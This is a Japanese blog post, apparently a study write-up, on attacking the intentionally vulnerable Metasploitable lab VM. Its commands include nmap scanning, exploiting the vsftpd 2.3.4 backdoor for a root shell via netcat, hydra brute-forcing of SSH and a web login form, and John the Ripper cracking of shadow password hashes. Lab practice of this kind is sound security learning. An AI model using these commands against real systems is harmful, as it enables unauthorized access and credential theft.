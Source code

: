 ```yaml
---
title: Metasplotableで体験するLinuxのハッキング
date: 2020-02-27T00:24:00.000Z
description: Metasplotableで体験するLinuxのハッキング
tags: ['セキュリティ', 'Linux']
---
```


Metasploitableという脆弱性が用意されたLinuxの仮想環境に対して攻撃を試すことで、Linuxのハッキング方法について学んだので、実際に試した攻撃についてまとめています。

## 注意

この記事は攻撃方法を知ることでセキュリティを学ぶことを前提としており、実験も仮想環境上で実行しています。  
決して外部の環境に対して実行しないようにしてください。

## 参考

[ハッキング・ラボのつくりかた 仮想環境におけるハッカー体験学習](https://www.shoeisha.co.jp/book/detail/9784798155302)  
第5章 「Metasploitableのハッキング」

## ツール一覧

* Netcat
    * TCP/UDPの接続を利用したデータを送受信するCLIツール
    * ファイル転送など色々な用途に使える万能ツール
* nmap
    * 攻撃対象の空いているポート番号を特定する（ポートスキャン）
* [Explit-DB](https://www.exploit-db.com/)、[CVE Details](https://www.cvedetails.com/)
    * 脆弱性を検索できるサービス
* hydra
    * オンラインのパスワードクラッキングツール
* Jhon the Ripper
    * 暗号化されたパスワードの解析ツール
    * Linuxの /etc/shadow やWebサービスのDBに保存してある暗号化されたパスワードを解析して元の文字列を復元する
* wireshark
    * パケットキャプチャツール
    * ネットワーク内のパケットをキャプチャすることで、どこ対してどんな内容の通信がされているかを解析する。

## ポートスキャン

-p-: 1~65535番までのポート番号を対象とする  
-sV: 各ポートのサービスのバージョンを検出する  
-O: ターゲットのOSを特定する。  

```
$ nmap -sV -O -p- <IP>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-27 00:28 JST
Nmap scan report for 10.0.0.5
Host is up (0.00068s latency).
Not shown: 65505 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.3.4
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp    open  telnet      Linux telnetd
...
```

## vsftpdのバックドアを利用

vsftpd 2.3.4 には リモートからコマンド実行可能なバックドアが含まれている。
（2011/06/30に埋め込まれて、2011/07/03 には修正済み）  
`:)` を含むユーザー名でFTPにログインするとポート6200(TCP)にバックドアが開く。

```
$ nc <攻撃対象のIP> 21
220 (vsFTPd 2.3.4)
USER hoge:)
331 Please specify the password.
PASS hoge
```

別ターミナルで確認すると6200ポートが開いてる事が確認できる。

```
$ nmap -p 6200 <IP>
PORT     STATE SERVICE
6200/tcp open  lm-x
```

6200ポートにバックドアが開くので、別ターミナルで6200にアクセスする。

```
$ nc -nv <IP> 6200
(UNKOWN) [<IP>] 6200 (?) open
whoami # コマンドを実行
root   # 結果が返ってくる
```

## 辞書攻撃でSSHアカウントの認証解析

```
# ユーザーの辞書ファイルを作成
$ cat > user.lst
root
sys
...

# パスワードの辞書ファイルを作成
$ cat > pass.lst
root
passwd
...

# 辞書ファイルを利用して総当たり
$ hydra -L user.lst -P pass.lst -t 4 <IP> ssh
```

## 暗号化パスワードの解析

John the Ripper を利用してパスワードを解析する。  
`ユーザー名:暗号化パスワード` の形式で解析したいパスワードをファイルに保存してコマンドを実行

```
$ cat passwords
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::

# 総当たり攻撃で解析（めっちゃ時間かかる）
$ john --incremental passwords
```

## HTTPの認証を解析

hydra で認証ページに対して辞書攻撃をして有効なID/パスワードを見つける。  
http-form-post の書式は `<認証APIのパス>:<送信パラメータ>:<認証失敗時のレスポンスに表示される文字列>`となる。
攻撃対象のURLや送信パラメータの構造は wireshark などでパケットキャプチャをして確認する。  

```
$ hydra -L user.lst -P pass.lst -s <Webサービスのポート> <ターゲットIP> http-form-post "/admin/j_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password"
```

